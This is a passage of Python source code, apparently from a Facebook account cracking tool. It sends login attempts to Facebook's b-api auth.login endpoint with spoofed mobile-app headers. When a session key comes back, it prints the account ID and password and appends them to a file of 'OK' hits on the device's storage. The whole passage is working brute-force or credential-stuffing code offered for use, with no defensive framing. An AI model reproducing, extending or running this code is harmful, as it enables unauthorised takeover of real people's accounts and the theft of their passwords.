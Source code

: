                                        'x-fb-friendly-name':'authenticate',
                                        'accept-encoding':'gzip, deflate',
                                        'x-fb-http-engine':     'Liger'}
                                url = 'https://b-api.facebook.com/method/auth.login'
                                po = requests.post(url,data=data,headers=head,allow_redirects=False).text
                                q = json.loads(po)
                                if 'session_key' in q:
                                        uid=str(q['uid'])
                                        try:
                                                okk=open('/sdcard/BHT-OK.txt','r').read()
                                                if uid in okk:pass
                                                else:
                                                        print('\r\r\033[1;32m [BHT-OK] '+uid+' | '+pas+'\033[1;97m')
                                                        open('/sdcard/BHT-OK.txt','a').write(uid+'|'+pas+'\n')
                                                        oks.append(ids)
                                                        break
                                        except:
                                                print('\r\r\033[1;32m [BHT-OK] '+uid+' | '+pas+'\033[1;97m')
                                                open('/sdcard/BHT-OK.txt','a').write(uid+'|'+pas+'\n')
                                                oks.append(ids)
                                                break
                                else:
                                        continue
                        loop+=1
                except requests.exceptions.ConnectionError:
                        time.sleep(10)
                except Exception as e:
                        pass
                        
try:
        menu()
except requests.exceptions.ConnectionError:
        print('\n No internet connection ...')
        exit()
except Exception as e:pass
menu()

